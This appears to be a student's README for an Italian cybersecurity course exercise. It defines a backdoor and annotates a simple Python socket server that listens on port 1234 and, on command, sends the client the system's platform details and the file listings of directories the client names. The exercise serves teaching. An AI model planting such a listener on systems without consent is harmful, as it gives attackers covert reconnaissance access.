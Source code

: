 # S3-L4-Pratica-Phyton-and-Social-ingegnering
Commentare/spiegare questo codice che fa riferimento ad una backdoor. Inoltre spiegare cos’è una backdoor. 
Il Backdoor è un termine utilizzato per descrivere una via di accesso segreta o non autorizzata in un sistema, spesso utilizzata per il black hacking nel contesto della sicurezza informatica. una backdoor può essere inserita da un attaccante per ottenere accesso non autorizzato a un sistema o per mantenere l'accesso in modo non rilevabile. Questo codice ad esempio a per compito di fare il server aprire una "porta sul retro" per consentire al client di eseguire comandi e ottenere informazioni dal sistema in cui il server è in esecuzione. Tale comportamento può essere considerato malevolo e pericoloso se utilizzato senza il consenso del proprietario del sistema ovviamente da un black Hacker.

il commando "Import" Importa le librerie necessarie
import socket
import platform
import os

Questo Commando definisce l'indirizzo IP e la porta su cui il server ascolta.
SRV_ADDR = ""
SRV_PORT = 1234

Questo commando  crea intermediari tra il livello applicazione e di trasporto nello stack TCP/IP. chiamato Socket crea un socket.
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

Questo commando associa il socket all'indirizzo e alla porta specificati
s.bind((SRV_ADDR, SRV_PORT))

Questo commando mette in ascolto il socket per connessioni in entrata
s.listen(1)

Questo commando accetta una connessione quando arriva una
connection, address = s.accept()

Questo commando stampa un messaggio indicando che un client è connesso
print("client connected: ", address)

Questo commando è il Loop principale del server
while 1:
    try:
        Questo commando riceve i dati inviati dal client
        data = connection.recv(1024)
    except:
        continue

    Questo commando porre le condizioni da esegiuire se il client invia '1', invia informazioni sulla piattaforma e architettura
    if data.decode('utf-8') == '1':
        tosend = platform.platform() + " " + platform.machine()
        connection.sendall(tosend.encode())
    
   Questo commando, se il client invia '2', elenca i file nella directory specificata
    elif data.decode('utf-8') == '2':
        data = connection.recv(1024)
        try:
            Questo commando ottiene la lista dei file nella directory specificata
            filelist = os.listdir(data.decode('utf-8'))
            tosend = ""
            
          Questo commando concatena i nomi dei file separati da virgola
            for x in filelist:
                tosend += "," + x
       Questo commando se si verifica un errore, invia un messaggio di errore
       except:
            tosend = "Wrong path" 

        Questo commando invia la lista dei file al client
        connection.sendall(tosend.encode())
    
    Questo commando permette nel caso che il client invia '0', di chiudere la connessione corrente e mettersi in attesa di una nuova connessione
    elif data.decode('utf-8') == '0':
        connection.close()
        connection, address = s.accept()
